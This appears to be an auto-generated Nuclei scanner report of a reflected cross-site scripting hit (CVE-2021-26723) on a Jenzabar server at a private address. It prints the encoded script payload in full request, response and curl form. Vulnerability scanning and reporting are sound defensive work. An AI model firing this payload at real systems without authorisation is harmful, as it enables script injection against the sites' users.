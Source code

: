 ### Jenzabar v9.20-v9.2.2 XSS (CVE-2021-26723) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2021-26723**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/ics?tool=search&query=%22%3E%3Cscript%3Ealert(document.domain)%3C/script%3E

**Timestamp**: Wed Jun 8 20:22:19 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | Jenzabar v9.20-v9.2.2 XSS |
| Authors | pikpikcu |
| Tags | cve, cve2021, jenzabar, xss |
| Severity | medium |
| Description | Jenzabar 9.2.x through 9.2.2 allows /ics?tool=search&query= XSS. |
| CVSS-Metrics | [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2021-26723](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2021-26723) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /ics?tool=search&query=%22%3E%3Cscript%3Ealert(document.domain)%3C/script%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2225.0 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 205
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/ics?tool=search&query="><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- http://packetstormsecurity.com/files/161303/jenzabar-9.2.2-cross-site-scripting.html
- https://gist.github.com/y0ung-dst/d1b6b65be6248b0ffc2b2f2120deb205
- https://jenzabar.com/blog
- https://y0ungdst.medium.com/xss-in-jenzabar-cve-2021-26723-a0749231328

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2225.0 Safari/537.36' 'http://192.168.198.179:8080/ics?tool=search&query=%22%3E%3Cscript%3Ealert(document.domain)%3C/script%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)